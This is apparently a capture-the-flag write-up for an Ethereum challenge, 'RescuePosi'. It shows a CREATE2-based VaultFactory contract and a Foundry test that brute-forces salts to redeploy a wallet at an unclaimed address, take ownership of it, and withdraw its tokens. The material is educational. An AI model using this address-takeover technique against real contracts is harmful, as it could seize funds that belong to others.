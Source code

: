 # RescuePosi

## Challenge

This challenge is once again focused on the create2 operator. We are provided with a standard ERC20 and 2 other contracts. Of those one is the template of a wallet that the company also used on the other chaín (not that interesting) and the deployment contract(mildly interesting). To keep it simple I just added the deployment contract as the others are not needed for the solution, the token has standard functionalities and the only interesting thing about the wallet is that you can use it to store/send ERC20 tokens if you are the owner. 

### Vaultfactory.sol

The VaultFactory has the interesting functionality that you can provide it with any bytecode and salt, and it will deploy it. It pretty much is a wrapper for a CREATE2 call.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

/**
 * @title VaultFactory
 */
contract VaultFactory {
    // Events
    event Deployed(address indexed addr);

    /**
     * @notice The address of the deployed contract is emitted in the Deployed event
     * @dev Deploys a contract
     * @param code The bytecode of the contract to deploy
     * @param salt The salt to use for the deployment
     * @return addr The address of the deployed contract
     */
    function deploy(bytes memory code, uint256 salt) public returns (address addr) {
        assembly {
            addr := create2(     // Deploys a contract using create2.
                0,               // wei sent with current call
                add(code, 0x20), // Pointer to code, with skip the assembly prefix
                mload(code),     // Length of code
                salt             // The salt used
            )
            if iszero(extcodesize(addr)) { revert(0, 0) } // Check if contract deployed correctly, otherwise revert.
        }
        emit Deployed(addr);
    }

    /**
     * @notice This function is used to call the initialize function of the deployed contract
     * @dev Executes a call to a contract
     * @param addr The address of the contract to call
     * @param data The data to send to the contract
     */
    function callWallet(address addr, bytes memory data) public {
        assembly {
            let result := call(  // Performs a low level call to a contract
                gas(),           // Forward all gas to the call
                addr,            // The address of the contract to call
                0,               // wei passed to the call
                add(data, 0x20), // Pointer to data, with skip the assembly prefix
                mload(data),     // Length of data
                0,               // Pointer to output, we don't use it
                0                // Size of output, we don't use it
            )
            let size := returndatasize() // Get the size of the output
            let ptr := mload(0x40)       // Get a free memory pointer
            returndatacopy(ptr, 0, size) // Copy the output to the pointer
            switch result                 // Check the result:
            case 0 { revert(ptr, size) }  // If failed, revert with the output
            default { return(ptr, size) } // If success, return the output
        }
    }
}

```

## Solution

As we know that the address is already a wallet on a different EVM chain we know that it must be one of the possible 2 to the power of 256  outcomes(dependent on the salt) outcomes of create2 with the wallet's bytecode. As we know the bytecode of the wallet contract, we can just brute force through CREATE2 to see which salt generates a wallet at the given address. In reality, this isn't doable, as 2 to the power of 256 computations on the EVM will never work. But in this case, it works as it seems that the person that generated their wallet there, picked a very simple salt. So I just implemented this in the foundry testcase and only needed 11 computations to find the address. Then I just used the wallet functions to send back all the money to the devs and the challenge is solved.

```solidity
//This is inefficient AF Don't try this at home kids
bool success = false;
uint256 saltyMcSaltface = 0;
address payable newWallet;

//Get the bytecode of the wallet template
bytes memory code = type(VaultWalletTemplate).creationCode;

//Generate new wallets until the address matches the unclaimed address
while (!success)
{
    newWallet = payable(FACTORY.deploy(code, saltyMcSaltface));
    success = newWallet == unclaimedAddress;
    saltyMcSaltface += 1;
}

//Initialize the wallet
VaultWalletTemplate walletWeWant = VaultWalletTemplate(newWallet);
walletWeWant.initialize(whitehat);

//Withdraw the funds to the devs
walletWeWant.withdrawERC20(address(POSI), 1000 ether, devs);
```